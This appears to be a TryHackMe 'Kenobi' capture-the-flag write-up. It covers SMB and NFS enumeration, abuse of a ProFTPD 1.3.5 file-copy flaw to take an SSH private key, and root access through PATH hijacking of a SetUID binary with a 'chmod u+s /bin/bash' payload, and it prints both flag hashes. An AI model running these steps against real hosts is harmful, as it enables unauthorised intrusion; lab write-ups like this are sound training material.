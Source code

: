# Kenobi tryhackme room writeup

# nmap scan shows 7 open ports
[nmap scan result](nmapResult)

## Enumerating port 445 (smb)
- nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse $ip
[enumeration result of p445](smbEnumRes)

- result shows 3 shares
- the anonymous share is accessible without any password
```bash
	smbclient //$ip/anonymous -> listing the directory reveal a log.txt file.
```
```bash
	smbget -R smb://$ip/anonymous # downloads every file found in the share recursively to the local machine
```

## Enumerating port 111 (rpcbind)
```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.2.252
```
[enumeration result of p111](rpcRes)

- result shows that the /var directory is mountable
```bash
sudo mount $ip:/var /tmp
```
- There wasn't a lot of interesting stuff, and since it is a read-only file system, it wasn't possible to upload a php reverse-shell script to /var/www/html directory

## Enumerating port 21 (ftp)
### banner grabbing 
```bash
nc $ip 21 	# shows the type and version of ftp server running (proftpd 1.3.5).
```
```bash
searchsploit proftpd 1.3.5 	# shows the ftp version is vulnerable to unauthenticated file copying by an ftp client from any directory to another on the server.
```
- After copying the private key of kenobi to the nfs share (/var/tmp), an initial foothold could be gained to the machine using ssh identity login
```bash
ssh -i priv_key kenobi@ip
```
- `cat user.txt` reveals user flag -> d0b0f3f53b6caa532a83915e19224899

# Privilege escalation
- First attempt is to look for SetUID programs that are out of ordinary
```bash
find / -type f -perm -u=s 2>/dev/null
```
- There is one file that is weird (***/usr/bin/menu***) - running it gives 3 options which run system commands (choosing the 3rd option runs the ***ifconfig*** command).

- Looking at the printable part of the executable file reveals that the commands are not using absolute path to be run and they will be searched for using the environment path variable which can be manipulated.

- I created a file called ifconfig, made it executable and added
```bash
#!/bin/bash
chmod u+s /bin/bash
```
inside the file which means if successful we will make bash a SetUID program.

`export PATH="/home/kenobi:$PATH"` 	# makes the directory 'ifconfig' is found in to be searched first when a command is executed.

- Running `/bin/bash -p` -> gives access to the root account.
- Traversing to the homedir of root reveals the root.txt flag (177b3cd8562289f37382721c28381f02).
